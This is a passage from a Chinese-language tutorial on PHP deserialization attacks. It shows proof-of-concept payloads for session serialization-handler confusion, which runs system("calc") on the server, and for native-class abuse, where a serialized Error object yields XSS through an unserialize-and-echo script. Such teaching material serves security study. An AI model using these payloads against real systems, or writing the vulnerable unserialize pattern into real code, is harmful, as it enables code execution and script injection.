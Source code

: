 因为采用了两个不同的序列化处理器来处理session，导致存储结构不一致，产生漏洞

新建一个use.php用来构造payload
```php
<?php
class Test{
	public $cmd='system("calc");';
}

$t=new Test();
echo serialize($t);
?>

```
use.php的输出结果
```php
O:4:"Test":1:{s:3:"cmd";s:15:"system("calc");";}
```
在use.php序列化的结果添加一个 |  并传入test.php
![](/PHP反序列化.assets/2.png)

此时再次访问test2.php就会弹出一个计算器，说明系统执行了system("calc")

因为test2.php会访问我们伪造的数据，而PHP处理器的格式是以键名+竖线+序列化的值组成的，使用时会把竖线前半部分的当成键名，而后半部分进行反序列化，通过伪造数据来让PHP处理器误为是要反序列化的值，最终执行eval("calc")

<br/>

## 原生类利用
在没有类可以利用的情况下，可以调用PHP中原生类来进行反序列化 （以下引用l3m0n师傅的文章[反序列化之PHP原生类的利用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html)）
### __toString
- Error
适用于php7版本
在开启报错情况下

test.php
```php
<?php
$a=$_GET['a'];
echo unserialize($a);
?>
```
新建use.php构造payload
```php
<?php
$a=new Error("<script>alert(1)</script>");
echo urlencode(serialize($a));
?>

```
将use.php序列化的值传入test.php的a参数造成xss弹窗
<br/>
